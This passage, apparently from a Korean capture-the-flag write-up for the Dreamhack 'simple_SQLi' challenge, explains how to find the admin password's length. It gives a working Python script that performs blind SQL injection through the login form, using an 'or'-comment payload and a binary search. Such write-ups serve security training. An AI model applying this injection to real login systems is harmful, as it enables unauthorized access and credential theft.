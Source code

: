 <br>

#### 2. 비밀번호 길이 파악

비밀번호를 알아내기 위해 비밀번호가 최대 몇자리로 이루어져있는지 확인해야한다. 이를 위해서 아래와 같이 `Binary Search`를 통해 `"admin"` 계정의 비밀번호 길이를 찾아내는 파이썬 스크립트를 작성할 수 있다.

```py
#!/usr/bin/python3
import requests
import sys
from urllib.parse import urljoin


class Solver:
    """Solver for simple_SQLi challenge"""
    
    # initialization
    def __init__(self, port: str) -> None:
        self._chall_url = f"http://host3.dreamhack.games:{port}"
        self._login_url = urljoin(self._chall_url, "login")
        
    # base HTTP methods
    def _login(self, userid: str, userpassword: str) -> bool:
        login_data = {
            "userid": userid,
            "userpassword": userpassword
        }
        resp = requests.post(self._login_url, data=login_data)
        return resp

    # base sqli methods
    def _sqli(self, query: str) -> requests.Response:
        resp = self._login(f"\" or {query}-- ", "hi")
        return resp
        
    def _sqli_lt_binsearch(self, query_tmpl: str, low: int, high: int) -> int:
        while 1:
            mid = (low+high) // 2
            if low+1 >= high:
                break
            query = query_tmpl.format(val=mid)
            if "hello" in self._sqli(query).text:
                high = mid
            else:
                low = mid
        return mid
        
    # attack methods
    def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
        query_tmpl = f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})"
        pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len)
        return pw_len
        
    def solve(self):
        pw_len = solver._find_password_length("admin")
        print(f"Length of admin password is: {pw_len}")
        
        
if __name__ == "__main__":
    port = sys.argv[1]
    solver = Solver(port)
    solver.solve()
```

